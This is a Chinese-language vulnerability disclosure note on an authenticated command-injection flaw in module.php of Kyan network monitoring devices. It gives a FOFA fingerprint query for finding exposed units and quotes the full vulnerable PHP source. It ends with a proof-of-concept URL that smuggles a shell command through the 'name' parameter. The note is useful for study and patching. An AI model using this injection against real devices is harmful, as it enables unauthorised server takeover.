


Kyan 网络监控设备 module.php 远程命令执行漏洞¶
漏洞描述¶
Kyan 网络监控设备 module.php 可在身份验证的情况下执行任意命令, 配合账号密码泄露漏洞，可以获取服务器权限，存在远程命令执行漏洞
漏洞影响¶
Kyan
网络测绘¶
app="Kyan设计"
漏洞复现¶
登录页面如下

存在漏洞的文件: /module.php
<?php
require_once 'config.php';
require_once 'functions.php';
require_once 'international.php';
session_start();
auth_check();
$BASH = "";
if (is_windows()) {
$BASH = "c:\\cygwin\\bin\\bash --login -c ";
$PREFIX = "/cygdrive/z/writable/";
$PREFIX2 = "/cygdrive/z/";
} else {
$BASH = "/bin/bashsuid -p -c ";
$PREFIX = "/config/";
$PREFIX2 = "/";
}
$encrypt_key = 'enc@leadmeet';
if ($_SERVER['REQUEST_METHOD'] == 'POST') {
if (!isset($_FILES['fileupload'])) {
show_error(lang_get('no file specified'));
exit;
}
if ($_FILES['fileupload']['size'] == 0) {
show_error(lang_get('file size is zero'));
exit;
}
$fileupload = $_FILES['fileupload'];
$destdir = $PREFIX.'pkgs';
$pkg_extract_dir = $PREFIX2.'pkgs';
$tmpname = $fileupload['tmp_name'];
if (is_windows()) {
$bn = basename($tmpname);
$command = "move /Y \"". $tmpname . "\" c:\\cygwin\\dev\\shm\\" . $bn;
shell_exec($command);
$tmpname = "/dev/shm/" . $bn;
}
shell_exec($BASH."\"mkdir -p /dev/shm/upload && chmod -R 777 /dev/shm/ \"");
exec($BASH."\"cd /dev/shm/upload && ( bzcat " . $tmpname . " | openssl bf-cbc -d -k " . $encrypt_key . " | cpio -idu )\"", $output, $ret);
if($ret <> 0)
{
show_error(lang_get('Extract file failed'));
exec($BASH."\"rm -rf /dev/shm/upload\"");
exit;
}
exec($BASH."\"cd /dev/shm/upload && md5sum -c md5sum\"", $output, $ret);
if($ret <> 0)
{
show_error(lang_get('MD5 check failed'));
exec($BASH."\"rm -rf /dev/shm/upload\"");
exit;
}
if (is_windows())
$dh = opendir('c:\\cygwin\\dev\\shm\\upload');
else
$dh = opendir('/dev/shm/upload');
if(!$dh)
{
show_error(lang_get('can not open dest dir to copy'));
exec($BASH."\"rm -rf /dev/shm/upload\"");
exit;
}
exec($BASH."\"touch /tmp/mmap_watch_pause\"");
while($file = readdir($dh))
{
if(is_dir($file)) continue;
$file = trim($file);
if(ereg('\.pkg$', $file))
{
$filetitle = basename($file, '.pkg');
$extract_dir = $pkg_extract_dir . '/' . $filetitle;
exec($BASH."\"" . $extract_dir . "/.init stop\"");
exec($BASH."\"mkdir -p " . $destdir . " && mv -f /dev/shm/upload/" . $file . " " . $destdir . "\"");
exec($BASH."\"rm -rf " . $extract_dir . " && mkdir -p " . $extract_dir . " && cd " . $extract_dir . " && bzcat " . $destdir . '/' . $file . " | cpio -idu \"");
}
}
if (!is_windows())
exec($BASH."\"/sbin/ldconfig\"");
else
exec($BASH."\"rm -rf ". $tmpname ."\"");
exec($BASH."\"rm -f /tmp/mmap_watch_pause\"");
exec($BASH."\"rm -rf /dev/shm/upload\"");
}
if (isset($_GET['cmd']) && isset($_GET['name'])) {
$cmd = $_GET['cmd'];
if ($cmd == 'delete') {
$name = $_GET['name'];
exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
if (is_windows())
exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
}
}
print_html_begin('module');
echo "<body>\n";
echo "<table style=\"width:500px\" border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<th colspan=2>".lang_get('modules')."</th>\n";
echo "<tr><td>".lang_get('name')."</td><td>".lang_get('operation')."</td></tr>\n";
if (is_windows())
$dh = opendir('z:\\writable\\pkgs');
else
$dh = opendir('/config/pkgs');
if ($dh) {
while ($file = readdir($dh)) {
if (is_dir($file))
continue;
$file = trim($file);
if (!ereg('\.pkg$', $file))
continue;
$filetitle = basename($file, '.pkg');
echo "<tr><td align=center>".$filetitle."</td><td>";
if (user_is_admin())
echo "<a href=\"/module.php?cmd=delete&name=".$filetitle.".pkg\">".lang_get('delete')."</a>";
echo "</td></tr>\n";
}
}
echo "</table>\n<br>\n";
echo "<table style=\"width:500px\" border='0' align='center' cellpadding='3' cellspacing='1'>\n";
echo "<form action=\"".$_server['php_self']."\" method=\"post\" enctype=\"multipart/form-data\">\n";
echo "<input type=\"hidden\" name=\"max_file_size\" value=\"200000000\">\n";
echo "<th align=\"center\" colspan=\"2\">".lang_get('modules to upload')."</th>";
echo "<tr> <td align=\"right\" width=\"50%\">" .lang_get('select file')."</td><td align=\"left\"> <input type=\"file\" name=\"fileupload\"> </td></tr>";
echo "<tr> <td align=\"center\" colspan=\"2\"> <input type=\"submit\" name=\"submit\" value=".lang_get('upload')."> </td></tr>";
echo "</form>\n</table>\n";
echo "</body>\n";
print_html_end();
?>
其中需要注意的部分
if (isset($_GET['cmd']) && isset($_GET['name'])) {
$cmd = $_GET['cmd'];
if ($cmd == 'delete') {
$name = $_GET['name'];
exec($BASH."\"rm -f ".$PREFIX."pkgs/".$name."\"");
if (is_windows())
exec($BASH."\"rm -rf ".$PREFIX2."pkgs/".$name."\"");
}
}
参数均可控，构造POC
/module.php?cmd=delete&name=;id>1.txt;
